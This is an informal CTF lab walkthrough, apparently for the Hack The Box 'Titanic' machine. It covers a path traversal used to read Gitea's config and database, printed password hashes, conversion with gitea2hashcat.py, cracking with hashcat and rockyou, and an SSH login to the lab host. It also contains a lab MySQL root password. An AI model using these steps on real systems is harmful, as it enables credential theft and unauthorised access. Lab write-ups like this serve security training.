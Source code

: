 

esto es un test
````
{"name": "Jack Dawson", "email": "jack.dawson@titanic.htb", "phone": "555-123-4567", "date": "2024-08-23", "cabin": "Standard"}



version: '3.8'

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets 
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always



version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always


````

![Pasted image 20250221112231.png](../../assets/Pasted%20image%2020250221112231.png)
so de structure is `/home/developer/gitea/data/gitea/<datos>` and the defatul gitea confing file is in `conf/app.ini` so lets check it, (because we have a path travertal vector)
![Pasted image 20250221113624.png](../../assets/Pasted%20image%2020250221113624.png)
![Pasted image 20250221113815.png](../../assets/Pasted%20image%2020250221113815.png)
nice now we can preform a crack attack

````txt
cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
53c5801d185db951883293b773a1290b5f0b739198d1347ce8604b036eab8cc61bacb713d33e9aad0a7fa53b762c678783d8
3d96983dad27f6189367d8810bb26221a247414df3a5b011b4251a04d23e0b5df495851487376f34e16e7cfae255b56d36e5
````

but we have to change the structure of the hash (https://exploit-notes.hdks.org/exploit/cryptography/key-derivation-function/pbkdf2/) we can use this tool to comberte the hash

````bash
python3 gitea2hashcat.py ../_home_developer_gitea_data_gitea_gitea.db
````

![Pasted image 20250221120029.png](../../assets/Pasted%20image%2020250221120029.png)

now we can use hashcat

````bash
hashcat --username giteaHashes /usr/share/wordlists/rockyou.txt
````

![Pasted image 20250221133550.png](../../assets/Pasted%20image%2020250221133550.png)

* perfect lets try it in a ssh connection\]

````bash
ssh developer@10.10.11.55
````

![Pasted image 20250221133843.png](../../assets/Pasted%20image%2020250221133843.png)
